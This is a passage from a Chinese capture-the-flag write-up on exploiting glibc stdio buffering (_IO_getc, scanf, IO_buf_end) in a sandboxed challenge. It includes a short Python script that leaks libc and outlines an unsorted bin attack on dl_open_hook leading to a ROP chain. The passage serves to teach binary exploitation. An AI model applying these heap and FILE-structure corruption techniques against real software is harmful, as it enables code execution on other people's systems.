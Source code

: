  _IO_getc_unlocked (fp)是一个宏定义，其根据IO_read_ptr和IO_read_end之间的不同大小，执行不同的操作。

+ \_IO\_read\_ptr>=\_IO\_read\_end	执行\_\_uflow (\_fp)
+ \_IO\_read\_ptr<\_IO\_read\_end 	返回\_IO\_read\_ptr指向的值，并指向下一个地址

```c
#define _IO_getc_unlocked(_fp) \
       (_IO_BE ((_fp)->_IO_read_ptr >= (_fp)->_IO_read_end, 0) \
	? __uflow (_fp) : *(unsigned char *) (_fp)->_IO_read_ptr++)
```

uflow 调用underflow，underflow会调用file_read，最终调用read(,IO_buf_base,IO_buf_end-IO_buf_base)，这里在源码中没有找到，给出汇编代码和调用栈。

> 注：程序沙盒对read的第三个参数count有大小限制，IO_buf_end-IO_buf_base的大小需要在改限制内。

![image-20210814175847326](https://gitee.com/nopnoping/img/raw/master/img/image-20210814175847326.png)

![image-20210814175941285](https://gitee.com/nopnoping/img/raw/master/img/image-20210814175941285.png)

![image-20210814175956687](https://gitee.com/nopnoping/img/raw/master/img/image-20210814175956687.png)

### scanf

scanf函数过于复杂，这里只简单讲解其从缓冲区获取数据的机制，原理和IO_getc一样，会去判断IO_read_ptr和IO_read_end之间的大小关系，但是由于格式字符串的原因，可能不能在我们的缓冲区中匹配到相应字符，因此不会对IO_read_ptr的值进行改变。

利用漏洞2泄露libc是很简单的事情，但是由于沙盒对read第三个参数的限制，不能将IO_buf_end的值修改的过大。

```python
#2.leak libc
ru(">")
s("A")
ru("key :")
s(b"\x22")
ru("data :")
s("a"*8)
ru(">")
ru(">")
s("A")
ru("key :")
s(b"\x12")
ru("data :")
s("a"*0x10)
ru(">")
ru(">")
s("R")
ru("key:")
s(b"\x12")
ru("a"*0x10)
```

**攻击dl_open_hook，调用ROP链**

泄露libc后，我们可以将IO_buf_end修改到main_arena后面，从而可以更改unsorted bin链表实时unsorted bin attack。注意，对于中间的值，最好不要修改，保留原来的值。
